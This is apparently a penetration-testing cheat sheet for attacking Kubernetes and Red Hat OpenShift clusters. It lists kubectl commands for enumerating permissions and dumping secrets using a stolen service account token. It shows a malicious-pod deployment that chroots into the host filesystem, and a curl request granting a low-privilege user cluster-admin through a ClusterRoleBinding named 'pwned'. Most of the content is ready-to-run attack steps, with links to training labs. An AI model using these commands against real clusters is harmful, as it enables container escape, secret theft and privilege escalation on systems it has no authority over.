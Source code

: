 # Containerization / Orchestration




## Kubernetes

- [https://book.hacktricks.xyz/cloud-security/pentesting-kubernetes](https://book.hacktricks.xyz/cloud-security/pentesting-kubernetes)



### kubectl

- [https://kubernetes.io/ru/docs/tasks/tools/install-kubectl/](https://kubernetes.io/ru/docs/tasks/tools/install-kubectl/)

Get `kubectl`:

```bash
curl -LO https://storage.googleapis.com/kubernetes-release/release/`curl -s https://storage.googleapis.com/kubernetes-release/release/stable.txt`/bin/linux/amd64/kubectl
chmod +x ./kubectl
sudo mv ./kubectl /usr/local/bin/kubectl
kubectl version --client
```

Basic authenticated enumeration (the service account token from `/run/secrets/kubernetes.io/serviceaccount/token` can be parsed at [jwt.io](https://jwt.io/)):

```
$ kubectl auth can-i --list
$ kubectl get namespaces
$ kubectl auth can-i --list -n <NAMESPACE>
$ kubectl get pods -n <NAMESPACE>
$ kubectl describe pods <POD> -n <NAMESPACE>
$ kubectl get secrets -n <NAMESPACE>
$ kubectl describe secrets -n <NAMESPACE>
$ kubectl --token=$(cat token) auth can-i create pods
```



### Malicious Pods

- [https://github.com/BishopFox/badPods](https://github.com/BishopFox/badPods)

Deploy a malicious pod:

```
$ kubectl apply -f evilpod.yml
$ kubectl exec --stdin --tty -it evilpod -- chroot /hostfs bash
```



### Training Labs

- [https://www.bustakube.com/](https://www.bustakube.com/)
- [https://0xdf.gitlab.io/2021/09/04/htb-unobtainium.html](https://0xdf.gitlab.io/2021/09/04/htb-unobtainium.html)

{% embed url="https://youtu.be/UgHt_Y3vdNg" %}




## Red Hat OpenShift

- [https://github.com/cherkavi/cheat-sheet/blob/master/openshift.md](https://github.com/cherkavi/cheat-sheet/blob/master/openshift.md)

Grant a low-priv user admin's privileges across the cluster [via REST API](https://access.redhat.com/solutions/5492301):

```json
curl -k -X POST 'https://cluster.megacorp.local:8443/apis/rbac.authorization.k8s.io/v1/clusterrolebindings' \
  -H 'Authorization: Bearer <TOKEN>'  \
  -H 'Accept: application/json'       \
  -H 'Content-Type: application/json' \
  -d'
{
  "kind": "ClusterRoleBinding",
  "apiVersion": "rbac.authorization.k8s.io/v1",
  "metadata": {
    "name": "pwned",
    "creationTimestamp": null
  },
  "subjects": [
    {
      "kind": "User",
      "apiGroup": "rbac.authorization.k8s.io",
      "name": "snovvcrash@megacorp.local"
    }
  ],
  "roleRef": {
    "apiGroup": "rbac.authorization.k8s.io",
    "kind": "ClusterRole",
    "name": "admin"
  }
}'
```
